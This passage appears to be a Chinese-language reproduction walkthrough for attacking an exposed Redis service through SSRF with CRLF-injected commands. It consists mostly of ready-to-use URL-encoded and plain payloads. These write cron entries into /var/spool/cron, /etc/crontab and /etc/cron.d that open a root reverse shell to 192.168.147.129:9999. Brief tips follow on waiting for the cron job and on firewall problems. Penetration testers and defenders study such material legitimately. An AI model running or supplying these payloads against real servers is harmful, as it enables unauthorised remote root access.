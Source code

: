 ```
http://172.18.0.2:6379/aaa%0D%0A%0D%0Aset%201%20%22%5Cn*%20*%20*%20*%20*%20%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.147.129%2F9999%200%3E%261%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fvar%2Fspool%2Fcron%0D%0Aconfig%20set%20dbfilename%20root%0D%0Asave%0D%0A%0D%0Aaaa
```

好了之后直接拼接到url后面然后Send

成功获得shell

注意点
1.  计划任务可能会等一会才会执行，shell不会立马反弹,等个一分钟左右 1.  一定要docker容器和主机可以通信,我因为nc的机器没关防火墙明明成功了，但是弹不回shell 
#### 3.2.3 crontab可以写入的位置
1.  `/ect/crontab` 
```
TEST



set 1 "\n\n\n\n* * * * * root bash -i &gt;&amp; /dev/tcp/192.168.147.129/9999 0&gt;&amp;1\n\n\n\n"

config set dir /etc/

config set dbfilename crontab

save



BBB
```

```
TEST%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.147.129%2F9999%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0ABBB
```
<li> `/etc/cron.d/*` <pre><code>TEST



set 1 "\n\n\n\n* * * * * root bash -i &gt;&amp; /dev/tcp/192.168.147.129/9999 0&gt;&amp;1\n\n\n\n"

config set dir /etc/cron.d

config set dbfilename shell

save



BBB</code></pre>  </li>
```
TEST%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.147.129%2F9999%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2Fcron.d%0D%0Aconfig%20set%20dbfilename%20shell%0D%0Asave%0D%0A%0D%0ABBB

/var/spool/cron/root,复现过程中用的就是这个

var/spool/cron/crontabs/root,debian系统下root用户的cron文件
```
